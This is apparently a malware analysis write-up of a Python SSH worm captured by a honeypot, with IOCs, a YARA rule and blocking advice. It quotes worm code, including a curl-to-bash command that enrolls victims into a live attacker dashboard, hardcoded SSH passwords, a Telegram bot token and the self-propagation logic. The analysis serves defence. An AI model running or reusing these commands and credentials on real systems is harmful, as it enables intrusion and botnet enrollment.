

# bendi.py

A worm I pulled off my Threat Harbour honeypot, written in plaintext Python with bash doing some of the work. It brute-forces SSH on cloud boxes, drops a copy of itself plus a small helper set, installs the Komari monitoring agent pointed at the attacker's own dashboard, and reports back over Telegram. 

The reason it is worth writing up: the malware reads its own source code off disk and spreads itself to every host it lands on, so shipping it in the clear *is* the propagation mechanism. There is nothing to unpack and no config to decrypt. You get the whole operator toolkit, including the bot token, the shared password, and the C2 addresses in the source code itself. 

## Provenance

```text
sha256:     00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730
md5:        8fd10ab5b189d5b42b4d41e9335cbe9e
sha1:       26f2d786e5c84cd57f3fc040ade95cc4578c6be9
size:       28390 bytes
type:       Python Script
source:     Threat Harbour (Cowrie based Honeypot)
family:     Python/Agent.BQD trojan
collected:  19/09/2026
handling:   static only — sample never executed
tools:      file, Google Translate, Code Editor, Hybrid Analysis
```

I found this sitting in plaintext Python with no obfuscation at all, which is basically an invitation. The Chinese in the file is only comments and print statements. I ran it through Google Translate to get readable comments. 

## Executive summary

- A Python SSH worm targeting cloud and VPS hosts, scanning **port 22 and 5522** with a single shared credential pair.
- Four separate channels: `sou.pp.ua` is the C2 API (infected-host dedupe), `del.sou.pp.ua` stages target and exclude lists, `sexy.pp.ua` is the actual botnet C2 (a Komari dashboard), and Telegram is used for propagation reports and scan exfil.
- The Komari dashboard was still live when I wrote this up. Everything else was dead. 
- It installs two `systemd` services (`Restart=always`, `multi-user.target`) into `/root/.s/` and `/opt/monitor/` and never cleans up after itself.

## Structure and embedded content

So essentially, it is a single python script that makes multiple other files and executes those. Effectively, we can split the whole thing into 6 files:

1. The main worm script - bendi.py
2. ssh_scanner.py
3. run_scan.sh
4. monitor_script.py
5. ip_port_extractor.py
6. filter_files.py

Four of them ship as string literals inside a `SCANNER_FILES` dict, the other two come from a `provisioner_files` dict:

```py
SCANNER_FILES = {
    "ssh_scanner.py": textwrap.dedent(""""""),
    "filter_files.py": textwrap.dedent(""""""),
    "ip_port_extractor.py": textwrap.dedent(""""""),
    "run_scan.sh": textwrap.dedent(""""""),
}
```
```py
MONITOR_SCRIPT_CONTENT = textwrap.dedent("""""")
```

```py
try:
    with open(__file__, 'r', encoding='utf-8') as f:
        bendi_py_source_code = f.read()
except Exception as e:
    print(f"❌ Fatal error: Unable to read own source code ({__file__}). Error: {e}")
    return

provisioner_files = {
    "bendi.py": bendi_py_source_code,
    "monitor_script.py": MONITOR_SCRIPT_CONTENT
}
```

That self-read is the whole trick. It `open()`s `__file__`, reads itself, and drops it as `bendi.py`. The helper scripts are then written to disk, two `systemd` units are installed, and the box is done.

```bash
PYTHON_EXEC="/root/.s/venv/bin/python3"
PORTS="22,5522"
IP_RANGES_FILE="ip_ranges.txt"
MASSCAN_OUTPUT_FILE="masscan_results.txt"
PROCESSED_FILE="processed_ips.txt"
FINAL_FILTERED_FILE="filtered_ips_final.txt"
FINAL_OUTPUT_DIR="/root/.a/"
EXCLUDE_FILE="del.txt"
```

## Configuration and indicator extraction

The most obvious indicator is the exposed hardcoded Telegram Bot information and also its reference to external domains

```py
SCANNER_DIR = "/root/.s/"
PROVISIONER_DIR = "/opt/monitor"
PROVISIONER_SERVICE_NAME = "file-monitor.service"
PROVISIONER_VENV_PATH = f"{PROVISIONER_DIR}/venv"
LOG_FILE_PATH = "/var/log/vps-monitor.log"
TARGET_SERVER_PASSWORDS = "LeitboGi0ro,123@@@"
TELEGRAM_BOT_TOKEN = "7431501378:AAHTIaWSQ1Gcqp5ovhY6-6L1TG8Npubq1Ug"
TELEGRAM_CHAT_ID = "743493786"
VPS_IDENTIFIER = "[☢️All☢️]"
```

### The four channels

I had to reread this a couple of times because the channels are easy to conflate. They are not interchangeable:

| Channel | Role | Where |
|---|---|---|
| `sou.pp.ua` | C2 API - dedupes hosts already infected | `/check_ip.php`, `/add_ip.php` |
| `del.sou.pp.ua` | Staging - target ranges and the exclude list | `/ip_ranges.txt`, `/del.txt` |
| `sexy.pp.ua` | **Botnet C2** - the operator's Komari dashboard | - |
| Telegram | Propagation reports + scan results exfil | `api.telegram.org/bot<token>/sendMessage` |

The dedupe API is worth a note because the protocol is very simple. It shells out to `curl` and string-compares stdout:

```py
def check_if_processed(ip_port):
    result = subprocess.run(['curl', '-s', f"{API_CHECK_URL}?target={ip_port}"], capture_output=True, text=True, timeout=15)
    if result.stdout.strip() == "PROCESSED":
        return True
    return False
```

## Propagation and the Komari agent

Here is the actual spreading routine, and the reason this thing is worth blocking:

```py
install_command = "bash <(curl -sL https://raw.githubusercontent.com/komari-monitor/komari-agent/refs/heads/main/install.sh) -e https://sexy.pp.ua --auto-discovery DsR94pYWmSUpC3nxxxxxxxxx"
success, output = execute_remote_command(ssh_client, install_command)
results['Install Agent'] = "✅ Success" if success else "❌ Failed"
# --- (New) Register to API after successfully installing Agent ---
if success:
    add_to_processed(target_host_info)
    results['Central registration'] = "✅ Success"
```

I have redacted the enrollment key. A working `--auto-discovery` key into a live adversary dashboard is the one artifact in this report that would let someone else walk in, and it sits in cleartext at a fixed offset in the sample. 

```text
hxxps://sou[.]pp[.]ua/       - Unaccessible
hxxps://del[.]sou[.]pp[.]ua/ - Unaccessible
hxxps://sexy[.]pp[.]ua/      - **Accessible** (Komari Dashboard)
```

> NOTE: `sou.pp.ua` and `del.sou.pp.ua` were both dead when I checked, and the Telegram bot no longer responds. The Komari dashboard at `sexy[.]pp[.]ua` was still up. 



Then it drops two services that keep running:

```text
Description=Scanner Runner Service ({SCANNER_DIR}run_scan.sh)
Description=File Monitor and Propagation Service
```

Both with `Restart=always` and `WantedBy=multi-user.target`, the first at `/etc/systemd/system/`, the second executing from the venv it creates in `/opt/monitor/venv/`. Before any of that it runs an `apt-get install` for `python3 python3-pip python3-venv masscan libpcap-dev screen curl procps coreutils` — `masscan` plus a Python venv under a hidden dotdir is a pairing you will not see from legitimate admin tooling.

## Working Principle

Execution is a five-stage loop that closes on itself. 

On first run main() reads its own source off disk, installs all the dependencies, drops the files and creates the services. From there the two services split the work. run_scan.sh loops forever, masscaning the operator's ip_ranges.txt on ports 22 and 5522, piping hits through ip_port_extractor.py into processed_ips.txt. 

Then filter_files.py subtracts the del.txt exclude list and writes survivors to filtered_ips_final.txt; those get split into per-credential queue files at /root/.a/LeitboGi0ro.txt and /root/.a/q123.txt. 

The monitor reads each queued ip:port, asks sou.pp.ua/check_ip.php whether the host has already been claimed (the server answers with the literal string PROCESSED, and any match is silently dropped so the fleet never re-hits its own hosts), then opens a Paramiko session as root against the two hardcoded passwords, SFTPs itself to /tmp/bendi.py, makes sure python3 exists, runs it, and deletes the remote copy. Because that payload is byte-identical to the original, the victim immediately reads its own source and rebuilds the same two-service fleet on its own box. 

Only after that succeeds does the monitor install the Komari agent against sexy.pp.ua for persistent operator visibility, POST the target to add_ip.php to claim it, and send a Markdown summary of the run to a Telegram bot. 

## Hybrid Analysis — third-party sandbox reports

The sample is **never executed here**. Everything in this section is CrowdStrike Falcon Sandbox's observation on their side, quoted and attributed.

```text
Report:     https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730
Verdict:    Malicious
Score:      54/100
Families:   Python/Agent.BQD trojan
Techniques: T1590, T1106, T1059.006, T1543.002
network:    sou.pp.ua
sandbox:    https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730/6a155baa78e58b8ded0988c1
            https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730/69e4d647b7d7a519020f7b8c
```

The verdict matches my own read. But HA scored it 54/100, which is low for something that installs persistence and enrolls a host into a botnet. 

### Network

```text
sou[.]pp[.]ua                /check_ip.php   /add_ip.php
del[.]sou[.]pp[.]ua          /ip_ranges.txt  /del.txt
sexy[.]pp[.]ua               Komari panel, LIVE at time of writing
api[.]telegram[.]org         /bot<token>/sendMessage
```

### Detection ideas

```yara
rule bendi_VPS_Worm
{
    meta:
        description = "bendi botnet"
        date        = "2026-09-26"
        hash        = "00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730"
        source      = "https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730"

    strings:
        $svc1  = "file-monitor.service"
        $svc2  = "Scanner Runner Service"
        $svc3  = "File Monitor and Propagation Service"
        $dir1  = "/root/.s/"
        $dir2  = "/opt/monitor/venv"
        $cfg1  = "PROVISIONER_SERVICE_NAME"
        $cfg2  = "TARGET_SERVER_PASSWORDS"
        $cfg3  = "VPS_IDENTIFIER"
        $ports = "22,5522"
        $kom   = "komari-monitor/komari-agent"
        $tg    = "api.telegram.org/bot"

    condition:
        3 of them
}
```

`3 of them` keeps the FP rate low — no single string here appears in benign admin tooling, and none of them are version-specific enough to break on the next build. The obvious false positive is a machine that legitimately runs the Komari agent, which will hit `$kom` alone; that is why it needs two more.

## Defensive value

If you take one thing: block the three `pp.ua` hostnames at the proxy and alert on the two `systemd` service names. The panel hostname is the highest-value block here because it is the one that is still live.

## Conclusion

A commodity SSH worm with a plaintext source, one shared password, and no persistence cleanup — but a working infection-broker registry behind it and a botnet panel still online. The next piece of work I would do is grab `ip_ranges.txt` and `del.txt` from a live drop, because that tells us the operator's scan scope, and check whether other operators are registering into the same `check_ip.php`.

---

**Tools used:** file, Hybrid Analysis, Google Translate, a code editor

**References:** [Malware Bazaar](https://bazaar.abuse.ch/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730/), [Hybrid Analysis](https://hybrid-analysis.com/sample/00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730), [Komari](https://github.com/komari-monitor/komari-agent)
